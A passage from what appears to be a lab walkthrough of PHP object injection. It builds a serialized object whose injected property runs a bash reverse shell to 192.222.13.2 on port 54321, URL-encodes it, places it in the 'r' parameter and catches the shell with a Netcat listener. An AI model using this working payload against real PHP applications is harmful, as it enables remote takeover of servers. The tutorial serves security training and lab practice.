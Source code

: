 

Serialize the object:

Command:
```php
php object.php
```


Serialized payload:
```php
O:18:"PHPObjectInjection":1:{s:6:"inject";s:71:"system('/bin/bash -c \'bash -i >& /dev/tcp/192.222.13.2/54321 0>&1\'');";}
```

Start a Netcat listener on port 54321 (since we specified this port in the reverse shell payload as well):

Command:
```bash
nc -lvp 54321
```


Assign the generated value in the **r** parameter in the URL:


It didn't work. But why is that?

It is because the serialized payload contains characters like **/** and **&** which are treated specially by the web browser and the server.

> To avoid that, we will encode the serialized payload.

You can use Burp to do that or use websites like https://www.url-encode-decode.com/ to get the job done:


URL-encoded serialized payload:
```bash
O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A71%3A%22system%28%27%2Fbin%2Fbash+-c+%5C%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.222.13.2%2F54321+0%3E%261%5C%27%27%29%3B%22%3B%7D
```

> [Note] Make sure not to copy this payload as is, since the IP would be different for the attacker machine assigned to you.

Assign the URL-encoded payload in the **r** parameter in the URL:


Check the terminal where the Netcat listener was running:


> We have gained a reverse shell!

Now we can run commands without having to generate command payloads every single time:

Commands:
```bash
id
pwd
ls -al
```
